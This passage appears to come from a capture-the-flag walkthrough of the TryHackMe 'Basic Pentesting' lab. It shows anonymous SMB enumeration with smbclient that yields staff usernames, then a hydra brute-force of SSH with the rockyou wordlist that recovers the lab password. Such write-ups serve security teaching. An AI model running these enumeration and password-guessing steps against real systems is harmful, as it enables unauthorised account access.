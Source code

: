 ~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Basic_Pentesting/files]
└─$ smbclient //$IP/Anonymous
Enter WORKGROUP\user's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Apr 19 13:31:20 2018
  ..                                  D        0  Thu Apr 19 13:13:06 2018
  staff.txt                           N      173  Thu Apr 19 13:29:55 2018

		14318640 blocks of size 1024. 11093968 blocks available
smb: \> get staff.txt
getting file \staff.txt of size 173 as staff.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
smb: \>
~~~

There is a file called `staff.txt`. I downloaded the file. Let's see the content:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Basic_Pentesting/files]
└─$ cat staff.txt 
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
~~~

we can see two usernames here:
* Jan
* Kay

### Brute-forcing SSH

So we know the full usernames now. We found out previously, that user `J` which is `Jan` has a weak password. Let's brute-force her password using `hydra` and rockyou wordlist for the SSH service:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Basic_Pentesting/files]
└─$ hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://$IP
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-24 02:53:31
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.91.85:22/
[STATUS] 179.00 tries/min, 179 tries in 00:01h, 14344222 to do in 1335:36h, 16 active
[STATUS] 130.00 tries/min, 390 tries in 00:03h, 14344011 to do in 1838:59h, 16 active
[22][ssh] host: 10.10.91.85   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
~~~
